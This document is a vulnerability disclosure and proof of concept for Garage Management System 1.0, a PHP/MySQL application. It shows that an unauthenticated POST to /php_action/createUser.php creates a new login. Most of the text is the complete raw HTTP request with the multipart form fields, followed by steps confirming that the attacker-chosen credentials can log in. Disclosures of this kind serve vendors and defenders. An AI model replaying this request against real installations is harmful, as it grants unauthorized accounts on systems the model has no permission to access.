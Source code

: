 # Garage Management System  - create new user  Unauthorized


#### Exploit Title: Garage Management System  - create new user  Unauthorized
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15485&title=Garage+Management+System+using+PHP%2FMySQL+Free+Source+Code
#### Version: Garage Management System  1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Confirmation of the user's identity, authentication, and session management is critical to protect against authentication-related attacks.

#### Payload used:
```
POST /php_action/createUser.php HTTP/1.1
Host: 192.168.67.9
Content-Length: 548
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfyEJMTq3SaowAIJ3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.9/add-user.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryfyEJMTq3SaowAIJ3
Content-Disposition: form-data; name="currnt_date"


------WebKitFormBoundaryfyEJMTq3SaowAIJ3
Content-Disposition: form-data; name="userName"

123@qq.com
------WebKitFormBoundaryfyEJMTq3SaowAIJ3
Content-Disposition: form-data; name="upassword"

admin@123
------WebKitFormBoundaryfyEJMTq3SaowAIJ3
Content-Disposition: form-data; name="uemail"

123@qq.com
------WebKitFormBoundaryfyEJMTq3SaowAIJ3
Content-Disposition: form-data; name="create"


------WebKitFormBoundaryfyEJMTq3SaowAIJ3--



```



#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.9/users.php，See one more user added.

   ![image-20220729161238741](img/image-20220729161238741.png)

   

   

3. `123@qq.com/admin@123` can login system;

     



